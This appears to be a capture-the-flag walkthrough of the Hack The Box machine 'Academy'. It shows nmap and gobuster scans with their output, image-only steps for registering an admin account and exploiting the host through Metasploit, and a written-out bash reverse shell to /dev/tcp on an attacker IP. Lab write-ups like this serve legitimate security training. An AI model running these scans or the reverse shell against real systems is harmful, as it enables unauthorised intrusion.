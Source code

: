 # NMAP
```CSS
▶ nmap -Pn -sS -p- -T4 --min-rate 1000 10.10.10.215

Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-03 10:48 IST
Nmap scan report for 10.10.10.215
Host is up (0.25s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
33060/tcp open  mysqlx

Nmap done: 1 IP address (1 host up) scanned in 70.45 seconds
```
```CSS
nmap -sC -sV -T4 --min-rate 1000 -p 22,80,33060 10.10.10.215

Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-03 10:56 IST           
Nmap scan report for 10.10.10.215                                                    
Host is up (0.24s latency).                                                          
                                                                                     
PORT      STATE SERVICE VERSION                                                      
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                                       
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)            
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)           
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)         
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))                    
|_http-server-header: Apache/2.4.41 (Ubuntu)                              
|_http-title: Did not follow redirect to http://academy.htb/              
33060/tcp open  mysqlx?                                                              
| fingerprint-strings:                                                               
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"                                                               
|_    HY000                                                                          
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service 
:                                                                                    
SF-Port33060-TCP:V=7.94%I=7%D=8/3%Time=64CB3A88%P=x86_64-pc-linux-gnu%r(NU
SF:LL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0\x0b\x
SF:08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(HTTPOpt
SF:ions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RTSPRequest,9,"\x05\0\0\0\x0b\
SF:x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSVersi
SF:onBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequestTCP,2B
SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fIn
SF:valid\x20message\"\x05HY000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%
SF:r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\
SF:x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(TerminalServerCookie,
SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\x0b\x0
SF:8\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\
SF:x05HY000")%r(Kerberos,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgNeg,9,
SF:"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\x05\x
SF:1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY00
SF:0")%r(FourOhFourRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDString,9
SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b\x08
SF:\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x
SF:05HY000")%r(LDAPBindReq,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SIPOptions,
SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LANDesk-RC,9,"\x05\0\0\0\x0b\x08\x0
SF:5\x1a\0")%r(TerminalServer,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NCP,9,"\
SF:x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesRPC,2B,"\x05\0\0\0\x0b\x08\x05\x1a
SF:\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000"
SF:)%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(WMSRequest,9,"\x05\0\0\
SF:0\x0b\x08\x05\x1a\0")%r(oracle-tns,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(
SF:ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(afp,2B,"\x05\0\0\0\x0b\x08
SF:\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x
SF:05HY000")%r(giop,9,"\x05\0\0\0\x0b\x08\x05\x1a\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
                                                                                     
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.41 seconds
```

# HTTP-80
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b666dcb7-0daf-4fde-992b-31407d91f5a7)

# Directory and File Brute-Force
```CSS
▶ gobuster dir --url http://academy.htb --extensions php --wordlist raft-medium-directories.txt

===============================================================                                                                                                            
Gobuster v3.5                                                                                                                                                              
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)                                                                                                              
===============================================================                                                                                                            
[+] Url:                     http://academy.htb                                                                                                                            
[+] Method:                  GET
[+] Threads:                 5                                                                                                                                             
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt                                                               
[+] Negative Status codes:   404                                                                                                                                           
[+] User Agent:              gobuster/3.5                                                                                                                                  
[+] Extensions:              php                                                                                                                                           
[+] Timeout:                 10s                                                                                                                                           ===============================================================                                                                                                            
2023/08/03 11:30:32 Starting gobuster in directory enumeration mode                                                                                                        
===============================================================                                                                                                            
/images               (Status: 301) [Size: 311] [--> http://academy.htb/images/]                                                                                           
/admin.php            (Status: 200) [Size: 2633]                                                                                                                           
/register.php         (Status: 200) [Size: 3003]                                                                                                                           
/login.php            (Status: 200) [Size: 2627]                                                                                                                           
/config.php           (Status: 200) [Size: 0]                                                                                                                              
/home.php             (Status: 302) [Size: 55034] [--> login.php]
/index.php            (Status: 200) [Size: 2117]          
```
# Register as User
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d1a301dc-c230-4f25-9a2b-fdd0e5f0a0fb)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/bfda213b-da7f-426f-a939-5eaed9228bc3)
# Login
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/9c5f7937-5861-41b4-b118-f4bdee5ff6c7)
# User Dashboard
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/6d632e69-0a50-4e7d-8180-c6c8fdbe0510)
# Register as Admin
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/56fc49e3-0fc6-4bd8-85b9-6afbac9d0c2a)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/6b7b2ffb-4497-4b45-8b42-f83fb7859704)
# Login
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/c792546c-9aee-4a27-b9b4-d17a32e138ee)
# Admin Page
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/46732760-b24d-4c69-a088-5afd136e69b1)
# Error Page
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ad4c8c30-b309-41a8-93c7-da658733df47)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/dd0a38a4-f0d6-40e1-b913-857e2cd68eff)
# Searchsploit
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/179e8926-8ed4-442b-9ffc-ddfd004b63d4)
# Metasploit
```CSS
▶ sudo msfdb run
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/cac2a074-606e-4cf1-a32b-6d73255d6e8f)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ee9ba94e-1287-4ea6-a4d1-573b14348e51)
# Reverse Shell
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/a0470a49-5b21-4d54-92bf-ed1723809e95)
# Shell Upgrade
```CSS
bash -c 'bash -i >& /dev/tcp/10.10.14.85/9001 0>&1'
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2a984763-6024-4ff5-b6f8-f37a64b505f7)
# Searching for Info
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/509032b0-9215-4e5c-bf8b-455c1c7094e3)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ec3a54d8-6cb2-4fb2-a7cb-7fed9f81c1d4)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/881c6f7d-590c-4624-99dc-de223e6d9169)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4e8fcdc6-55e1-45f8-ae8f-8f76dd7ded72)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/973201b0-4f2b-42e8-95c5-af98ede1c6d2)
# List of Users
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/bf5fe75b-fcff-4f91-bbf2-115df6a5d616)

